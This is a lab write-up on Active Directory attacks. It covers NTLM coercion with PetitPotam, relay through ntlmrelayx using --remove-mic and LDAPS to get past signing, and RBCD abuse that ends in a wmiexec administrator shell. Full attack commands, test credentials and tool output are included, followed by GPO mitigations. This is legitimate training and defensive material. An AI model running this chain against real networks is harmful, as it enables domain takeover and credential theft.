In this section we are going to practice with Coercion & NTLM Relay, and draw conclusions about how an attacker could take advantage of some legitimate Windows protocols and how they could take ownership of an entire `Active Directory` network simply by being a regular `User` with no special permissions.

For this we should already know how the `NTLM` authentication flow works, which we covered in the `LLMNR / NBT-NS Poisoning` section. It is simple: the client sends a `NEGOTIATE` message to the server, the server replies with a `CHALLENGE`, and the client generates a cryptographic result based on its own `NT Hash` and the `CHALLENGE` sent by the server. Finally the client sends that result to the `Server` and the `Server` verifies the integrity of it.
```cpp
Client                     Server
  |                           |
  |---(1) NEGOTIATE---------->|
  |                           |
  |<---(2) CHALLENGE----------|
  |      (random nonce)       |
  |                           |
  |---(3) AUTHENTICATE------->|
  |   (hash of the challenge) |
  |                           |
  |<---(4) ACCESS GRANTED-----|
```
Now, let's talk about `Coercion`:
## Coercion
Coercion allows an attacker to force a Windows machine to authenticate toward them without any user interaction. It is not a bug in a specific application, it is an abuse of legitimate Windows protocols that were designed for inter-service communication

The idea is simple: there are multiple protocols in Windows that allow one machine to tell another "Authenticate toward this address". If those protocols can be called, we can force arbitrary authentications
```cpp
Attacker                          DC
    |                              |
    |-- "Hey DC, open a            |
    |    connection toward         |
    |    MY IP via EFS/RPRN" ----> |
    |                              |
    |                    DC obeys  |
    |                    and       |
    |<-- DC$ authenticates ------> |
    |    toward the attacker       |
```
The protocols that are normally abused are:
### MS-RPRN (PrinterBug)
- The Windows Print Spooler service. It has a function called `RpcRemoteFindFirstPrinterChangeNotification` that forces the machine to connect to wherever you point it.
### MS-EFSRPC (PetitPotam)
- The Encrypted File System. It has functions that force connections toward arbitrary IPs.
### MS-DFSNM, MS-FSRVP, MS-RPRN
- Other protocols with the same problem, which is what `Coercer` automates.

Coercion alone causes no harm. The danger lies in what the attacker does with the captured authentication:
- `Crack the hash offline`: If `DC$` has a weak password, we crack it with Hashcat. Machine accounts usually have long auto-generated passwords so this rarely works.
- `NTLM Relay`: This is where the real impact is. We capture the `DC$` authentication and relay it in real time to another service, for example relaying it to LDAP to create admin users, or to SMB to execute commands.
- `Relay to ADCS (ESC8)`: If there is a Certificate Services server in the domain, relay the `DC$` authentication to obtain a domain certificate that gives us permanent full access.

It is worth noting that to abuse these protocols and perform `Coercion` we will need valid credentials with a valid user. It does not matter if it is a `Machine` account, a `User` account, or a `gMSA` account, we just need a valid login. In short, the machine account we want to coerce does not care what specific AD object we are; it will simply receive the instruction through the protocols mentioned above.

What will allow us to capture the `NTLMv2` hash is `Responder`, which will be listening. When we launch `PetitPotam` for example, we instruct `DC$` to make an authentication connection toward `192.168.20.68 (our Arch with Responder)`, and that is where everything starts.
### Machine Account Creation - Mandatory?
It is not mandatory but in practice, yes. I say this because I believe that in a real audit we will never be cracking the `NTLMv2` hash.
- Remember that machine hashes are very long and auto-generated.

This is where creating a machine account comes in: when we relay to LDAP to perform attacks like `Resource Based Constrained Delegation (RBCD)`, we will need a machine account that we control in order to delegate privileges to ourselves

The full attack would be:
```cpp
1. We create a machine account EVIL$ that we control
2. We force coercion on the DC
3. We relay the DC$ authentication to LDAP
4. We modify the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the DC
5. We point it to our EVIL$
6. Now EVIL$ can impersonate any user on the DC
7. We request a Kerberos ticket as Administrator
8. Full access to the DC

(Note that LDAP must be on a DIFFERENT server. The MS08-068 patch blocks this on the same machine)
```
Without the machine account we cannot complete `RBCD`.
## SMB Signing
It is a security mechanism that cryptographically signs every SMB packet exchanged between client and server. The signature guarantees that packets were not modified in transit

After the full NTLM authentication, both sides derive a session key from the authentication process:
```cpp
session_key = HMAC_MD5(NT_hash, NTLM_response)
```
Every SMB packet carries a signature:
```cpp
signature = HMAC_MD5(session_key, packet + sequence_number)
```
The receiver verifies the signature before processing the packet. If it does not match, the packet is discarded.
### What does it protect exactly?
It protects the SMB session AFTER authentication. It does not protect the NTLM handshake itself.
### Why does --remove-mic bypass it?
Because `--remove-mic` acts before the SMB session is established, during the NTLM handshake. It removes the MIC and the signing negotiation flags from the AUTHENTICATE message. The server receives a message that does not request signing, so it never negotiates it. SMB Signing never gets activated.
```cpp
Without --remove-mic:
  AUTHENTICATE [valid MIC] [SIGN=1] → server verifies MIC → detects relay → FAIL

With --remove-mic:
  AUTHENTICATE [MIC=0x000] [SIGN=0] → server verifies nothing → SUCCESS
```
## LDAP Signing
It is the equivalent of SMB Signing but for the LDAP protocol. It signs LDAP messages to guarantee their integrity.

It is negotiated during the LDAP bind using SASL. The client and server agree to sign messages using the session key derived from NTLM.
```cpp
ldap_signature = HMAC_MD5(session_key, ldap_message)

0 = None       → no signing is negotiated
1 = Negotiate  → signing if the client offers it
2 = Required   → always requires signing, rejects connections without it
```
### Why does ldaps:// bypass it?
Because LDAP Signing only applies to plain LDAP (port 389). When LDAPS or StartTLS is used, the TLS layer already provides integrity and encryption. The DC assumes TLS is sufficient and does not negotiate additional LDAP Signing.
```cpp
LDAP (389):          signing is negotiated inside the protocol → Required blocks the relay
LDAPS (636) / StartTLS: TLS covers integrity → LDAP Signing not negotiated → relay works
```
## LDAP Channel Binding
This is the most robust of the three mechanisms. It cryptographically ties the NTLM handshake to the specific TLS channel in which it occurs.

When the client connects via LDAPS/TLS, it computes a Channel Binding Token (CBT):
```cpp
CBT = hash of the server's TLS certificate
```
This CBT is included inside the AUTHENTICATE message as an attribute called `MsvAVChannelBindings`. The DC verifies:
```cpp
received CBT == hash(my own TLS certificate)
```
To bypass this we would need the private key of the DC's certificate, which is equivalent to already having the DC compromised.
- In short, we are stuck if `Channel Binding` is enabled.
## Real Attack Flow
```cpp
SVIM-MACHINE$          ntlmrelayx                    DC LDAP
     |                 [SMB Server] [LDAP Client]      |
     |                     |              |            |
     |--- NEGOTIATE -----→ |              |            |
     |                     |--- NEGOTIATE ----------→  |
     |←-- CHALLENGE ------- |←-- CHALLENGE ----------- |
     |                     |              |            |
     |--- AUTHENTICATE --→ | (modifies)   |            |
     |                     |--- AUTHENTICATE --------→ |
```
This is the flow `ntlmrelayx` uses to talk to the victim and the target server. `ntlmrelayx` has two parts: when it receives the first `NEGOTIATE` it handles it with the `SMB` server, translates that `NEGOTIATE` into a `LDAP BIND (SASL/NTLM)` and sends it to the DC (if `--remove-mic` is active it strips `SIGN flag = 1` from the `AUTHENTICATE` message and sets it to `0x00000`):
```cpp
AUTHENTICATE = {
    SIGN flag = 0x00000,        ← "Disabled"
    MIC = 0x00000000...         ← also zeroed out, not calculated
}
```
When it sends this to the DC, the DC sees the flag is `0x00000` and concludes that the client (victim) does not want `SIGN` in this `LDAP Handshake`. `ntlmrelayx` receives an `LDAP CHALLENGE`, translates it into an `SMB CHALLENGE` and sends it to the victim. The victim performs the corresponding cryptographic operation and sends an `SMB AUTHENTICATE` to the `ntlmrelayx` SMB server, which finally translates it into an `LDAP AUTHENTICATE` and forwards it to the `LDAP` server.

If the `LDAP AUTHENTICATE` arrives with `SIGN` enabled it would be:
```cpp
DC receives AUTHENTICATE [SIGN=1]
DC thinks: "ok, this client wants signing"
DC derives the session key
DC expects ALL subsequent LDAP messages to be signed
```
Then when ntlmrelayx tries to make LDAP Queries:
```cpp
ntlmrelayx → LDAP query (unsigned, because it does not have the real session key)
DC → "this message is not signed" → REJECTS
```
ntlmrelayx cannot sign the messages because the session key is generated by `SVIM-MACHINE$` from its NT hash, and ntlmrelayx never had it.

After all this theory, let's quickly set up a Lab to practice `Coercion`. The first thing we will need is to disable `SMB Signing / LDAP Signing`.
- The worst-case scenario is `SMB Signing OFF + LDAP Signing/Channel Binding OFF + AD CS` exposed. With that, from a normal unprivileged user account we can reach Domain Admin in minutes.
## Lab 1
First of all, let's configure everything as if it were a real environment, we will enable `SMB/LDAP Signing`. The only thing we will leave disabled is `LDAP Channel Binding` (remember that this is practically impossible to bypass for now).


In this case we will leave `Channel Binding` at `Not Defined`, which is the default.

And on the victim's `Machine Account` we will have `SMB Signing Outbound & Inbound` enabled:

- My `Lab` setup is: `Arch Linux` - `Windows 10 Server 2019` - `Windows Enterprise 10`, all running in `VMWare`. The reason for this is that relaying from `DC01$` to itself (LDAP) is blocked by the `MS08-068` patch, so the relay target must strictly be a different server. With that said, let's continue.
```cpp
192.168.20.52 --> DC01$
192.168.20.76 --> DAN-MACHINE$
192.168.20.68 --> Arch Linux
```
As attackers we verify that everything is enabled:

At this point we might think we are stuck and cannot perform a `Coercion / NTLM Relay` attack. Or are we?

Let's start Responder listening on our network interface, waiting for requests:
```cpp
svim @Burned in burned/exploits/poc ❯ sudo responder -I ens33
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[*] Tips jar:
    USDT -> 0xCc98c1D3b8cd9b717b5257827102940e4E17A19A
    BTC  -> bc1q9360jedhhmps5vpl3u05vyg4jryrl52dmazz49
SNIFF....
```
And we launch `PetitPotam.py`:
```cpp
svim @Burned in PetitPotam on  main ? ❯ python3 PetitPotam.py -dc-ip '192.168.20.52' -u 's.vim' -p 'snake123' 192.168.20.68 192.168.20.52 2>/dev/null
```
And if we look at `Responder`:



We captured the `NTLMv1` hash of `DC01$`, interesting. But what happens if we disable `NTLMv1` support on the `DC`?



We launch `PetitPotam.py` again:



We are still capturing `NTLMv2`.
- We just confirmed that even with `SMB / LDAP Signing` enabled we can still capture `NTLMv2` (the first step of `ntlmrelayx.py`).

At this point we would normally try to crack the hash, but as we saw earlier, that is not feasible in practice.

This is where the `Relay` comes in.
## Relay
The Relay solves the biggest problem with a `Coercion` attack: machine hashes are impossible to crack. Machine account passwords are 120 random characters auto-generated by Windows. Hashcat will never crack them.

So instead of cracking, we use the authentication directly without needing the password.
```cpp
DAN-MACHINE$              ntlmrelayx (Arch)           DC LDAP
 |                            |                            |
 |                            |                            |
 |<-- PetitPotam: authenticate toward 192.168.20.68 (ME)   |
 |                            |                            |
 |---(1) NEGOTIATE----------->|                            |
 |                            |---(1) NEGOTIATE----------->|
 |                            |<---(2) CHALLENGE-----------|
 |<---(2) CHALLENGE-----------|    (LDAP challenge)        |
 |   (same challenge)         |                            |
 |---(3) AUTHENTICATE-------->|                            |
 |                            |---(3) AUTHENTICATE-------->|
 |                            |<---(4) ACCESS GRANTED------|
 |                            |                            |
 |          ntlmrelayx acts as DAN-MACHINE$ on LDAP        |
```
What `ntlmrelayx` does is act as a `Man-In-The-Middle` between `DAN-MACHINE$` and the target server. It has two simultaneous open connections:
- One with the `SMB` server, impersonating the destination server.
- One with the LDAP server, impersonating `DAN-MACHINE$`.

The flow in practice would be:
- We use our `Arch Linux` to force `DAN-MACHINE$` to begin the entire `NEGOTIATE` process toward our `ntlmrelayx` using `PetitPotam.py`. When `ntlmrelayx` receives the `NEGOTIATE` message it `FORWARDS` it to the `LDAP` server. The LDAP server responds with a `CHALLENGE` and `ntlmrelayx` forwards it to `DAN-MACHINE$` (which is already waiting for our `CHALLENGE`. Remember that `ntlmrelayx` is acting as a server). `DAN-MACHINE$` performs the cryptographic operation and sends the `AUTHENTICATE` to us `(ntlmrelayx)`. When we receive it we forward it to the `LDAP` server, which gives us `ACCESS GRANTED` if everything went well.
## Kerberos Delegation
Before understanding RBCD we need to know what delegation is in general. Consider this scenario:
```cpp
User → accesses → Web Server → needs to query → Database
```
The Web Server needs to go to the Database on behalf of the user. For that to work, the Web Server needs permission to act as the user toward the Database. That is delegation.
## RBCD - Resource Based Constrained Delegation
There are 3 types of delegation, but the one relevant here is RBCD. The difference from the others is where it is configured:
```cpp
Standard Delegation:  Configured on the account that DELEGATES
                      "EVIL$ has permission to impersonate on any service"

RBCD:                 Configured on the account that RECEIVES the delegation
                      "DAN-MACHINE$ accepts that EVIL$ impersonates users toward it"
```
The attribute that controls this is `msDS-AllowedToActOnBehalfOfOtherIdentity` and it lives on the target machine object inside AD.
### msDS-AllowedToActOnBehalfOfOtherIdentity
It is an attribute on the computer object in AD that contains a list of accounts that can impersonate users toward that machine/service:
```cpp
DAN-MACHINE$ {
    ...
    msDS-AllowedToActOnBehalfOfOtherIdentity = [EVIL$]
    ...
}
```
This tells Kerberos:
- If `EVIL$` requests a ticket impersonating someone toward `DAN-MACHINE$`, it is allowed.
### Who can write that attribute?
Here is the abuse. By default in AD:
- The `object itself` can write its own attribute (`DAN-MACHINE$` can modify its own `msDS-`).
- `Domain Admins` can write it.
- Any account with `GenericWrite` over the object.

When the SMB->LDAP relay works, `ntlmrelayx` authenticates to LDAP as `DAN-MACHINE$`. And `DAN-MACHINE$` has permission to write its own attribute. That is why this works.

The full flow would be:
```cpp
1. ntlmrelayx authenticated as DAN-MACHINE$ on LDAP
         ↓
2. Creates a machine account EVIL$ (that we control)
         ↓
3. Writes to msDS-AllowedToActOnBehalfOfOtherIdentity of DAN-MACHINE$:
   → "EVIL$ can impersonate users toward me"
         ↓
4. We request a Kerberos TGS using S4U2Self + S4U2Proxy:
   → S4U2Self:  EVIL$ requests a ticket "as if it were Administrator"
   → S4U2Proxy: that ticket converts into access to DAN-MACHINE$ as Administrator
         ↓
5. We use that ticket (PTT) to access DAN-MACHINE$ as Administrator
```
In summary, our attack would be:
- `ntlmrelayx` relays `DAN-MACHINE$` to `LDAP` and writes `msDS-AllowedToActOnBehalfOfOtherIdentity = EVIL$` on its attribute.
- With that we now do `S4U2Self` from `EVIL$` and request a TGS as `Administrator` for ourselves (EVIL$).
- With that TGS we can do `S4U2Proxy` toward `DAN-MACHINE$`, and since `ntlmrelayx` already put us in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, we can complete S4U2Proxy correctly.
- Kerberos gives us a TGS as Administrator for `DAN-MACHINE$` and we do `PTT` to log in as Administrator.
```cpp
NTLM Relay
    ↓
Write msDS-AllowedToActOnBehalfOfOtherIdentity
    ↓
EVIL$ authorized over DAN-MACHINE$
    ↓
S4U2Self (Administrator -> EVIL$)
    ↓
S4U2Proxy (Administrator -> cifs/DAN-MACHINE$)
    ↓
PTT
    ↓
Access to DAN-MACHINE$ as Administrator
```
## Lab 2
For this `Lab` I already have `DAN-MACHINE$` created and added to the `Domain Admins` group. Let's imagine we found that account vulnerable to Coercion and it is a member of this group.



And we will set the GPO `Network Security: LAN Manager authentication level` to `Not Defined (Default)`.



Let's start the full attack (remember that SMB / LDAP Signing are ON).

- If we launch `PetitPotam.py`:



We can see that `ntlmrelayx` could not relay to `LDAP`. This is because of what we saw earlier, `SMB / LDAP Signing` is being negotiated. Let's use `--remove-mic`.



We get a `'LDAP Signing is enabled'` error, and this is where the second bypass comes in. Let's try bypassing `LDAP Signing` via `LDAPS`:
```cpp
svim @Burned in burned/exploits/poc ❯ sudo ntlmrelayx.py -t 'ldaps://192.168.20.52' --no-dump --delegate-access -smb2support --remove-mic
```


And we have a successful `SMB->LDAPS` relay. This is where the `S4U2Self & S4U2Proxy` attack begins.

Normally a `Machine Account` will have a `SPN` of type `HOST`, so we are going to request a TGS via `S4U2Proxy` for `HOST/DAN-MACHINE.BURNED.CORP`
```cpp
servicePrincipalName: HOST/DAN-MACHINE.BURNED.CORP
```
Let's do `S4U2Proxy` with `getST.py`:
```cpp
svim @Burned in ~ ❯ getST.py 'BURNED.CORP'/'RRNLTXBZ$':':Z6aA+x0HLsW26$' -spn 'HOST/DAN-MACHINE.BURNED.CORP' -impersonate 'Administrator' -dc-ip '192.168.20.52'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@HOST_DAN-MACHINE.BURNED.CORP@BURNED.CORP.ccache
󰣇 svim @Burned in ~ ❯ export KRB5CCNAME=Administrator@HOST_DAN-MACHINE.BURNED.CORP@BURNED.CORP.ccache
󰣇 svim @Burned in ~ ❯ klist
Ticket cache: FILE:Administrator@HOST_DAN-MACHINE.BURNED.CORP@BURNED.CORP.ccache
Default principal: Administrator@BURNED.CORP

Valid starting       Expires              Service principal
06/14/2026 13:37:16  06/14/2026 23:37:16  HOST/DAN-MACHINE.BURNED.CORP@BURNED.CORP
	renew until 06/15/2026 13:37:16
󰣇 svim @Burned in ~ ❯
```
And we use `wmiexec.py`:
```cpp
󰣇 svim @Burned in ~ ❯ wmiexec.py -k -no-pass DAN-MACHINE.BURNED.CORP
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
cburned\administrator

C:\>systeminfo

Host Name:                 DAN-MACHINE
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Dan
Registered Organization:
Product ID:                00329-20000-00001-AA022
Original Install Date:     6/12/2026, 4:42:12 PM
System Boot Time:          6/14/2026, 10:19:53 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
...... SNIFF
C:\>
```
## Mitigations
### SMB Signing - Required on all hosts
These attacks chain multiple weaknesses simultaneously: coercion protocols, NTLM relay, and delegation abuse. There is no single fix that eliminates everything, mitigation requires addressing each layer

The most direct mitigation against SMB relay. If every host requires signed SMB packets, relaying an SMB authentication to another SMB target becomes impossible because the attacker cannot produce valid signatures without the session key.
```cpp
GPO: Computer Configuration → Windows Settings → Security Settings
     → Local Policies → Security Options
     → Microsoft network client: Digitally sign communications (always) → Enabled
     → Microsoft network server: Digitally sign communications (always) → Enabled
```
The caveat is that enforcing this on every host in a large environment can break legacy applications and older devices that do not support SMB Signing
### LDAP Signing + LDAP Channel Binding - The most effective combination
These two together are the strongest mitigation specifically against SMB->LDAP relay attacks like the one demonstrated here.

- **LDAP Signing** forces all LDAP messages to be cryptographically signed. Without the session key the attacker cannot produce valid signatures, so relay to plain LDAP fails.
- **LDAP Channel Binding** ties the NTLM handshake to the specific TLS channel. Even if the attacker relays to LDAPS, the Channel Binding Token in the AUTHENTICATE message must match the hash of the DC's TLS certificate. Without the DC's private key this is impossible to bypass with current techniques.
```cpp
GPO: Computer Configuration → Windows Settings → Security Settings
     → Local Policies → Security Options
     → Domain controller: LDAP server signing requirements → Require signing
     → Domain controller: LDAP server channel binding token requirements → Always
```
The risk here is real. Setting Channel Binding to `Always` can break:
- Older Linux/Unix clients using ldap libraries that do not support channel binding
- Network devices and printers that authenticate via LDAP
- Some third party applications with hardcoded LDAP connections
The recommended approach is to set it to `When supported` first, monitor the event logs for failures (Event ID 3039), identify the affected clients, update or replace them, and then move to `Always`.
### Disabling NTLMv1
Beyond the obvious benefit of making captured hashes harder to crack, disabling NTLMv1 also breaks the `--remove-mic` bypass. The reason is that NTLMv2 includes stronger MIC protections that cover more fields of the handshake, when `ntlmrelayx` attempts to strip the MIC, the DC detects inconsistencies in the AUTHENTICATE message and rejects it, blocking the relay to LDAPS entirely
```cpp
NTLMv1 allowed → --remove-mic works → relay to LDAPS succeeds
NTLMv1 disabled → --remove-mic fails → DC rejects the manipulated AUTHENTICATE
```

```cpp
GPO: Computer Configuration → Windows Settings → Security Settings
     → Local Policies → Security Options
     → Network security: LAN Manager authentication level
     → Send NTLMv2 response only. Refuse LM & NTLM
```
The compatibility risk is low in modern environments but does exist. Very old clients and some legacy applications only support NTLMv1. Always audit which devices are still negotiating NTLMv1 before enforcing this domain-wide, Event ID 4624 in the Security log will show the authentication package used per login
- In any case, NTLMv1 is set to “Not Defined” by default in the DC's GPO, so this attack would normally work
